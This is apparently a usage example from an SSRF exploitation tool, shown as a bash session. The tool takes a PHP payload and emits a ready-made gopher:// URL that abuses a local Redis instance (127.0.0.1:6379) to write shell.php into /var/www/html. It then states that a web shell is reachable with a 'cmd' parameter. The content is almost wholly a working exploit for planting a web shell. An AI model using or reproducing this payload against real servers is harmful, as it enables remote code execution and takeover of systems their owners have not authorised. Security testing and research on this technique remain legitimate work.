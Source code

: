 ```bash
What do you want?? (ReverseShell/PHPShell): PHPshell

Give web root location of server (default is /var/www/html): 
Give PHP Payload (We have default PHP Shell): <?=system('ls /');?>      

Your gopher link is Ready to get PHP Shell: 

gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2424%0D%0A%0A%0A%3C%3F%3Dsystem%28%27ls%20/%27%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

When it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter. 
```

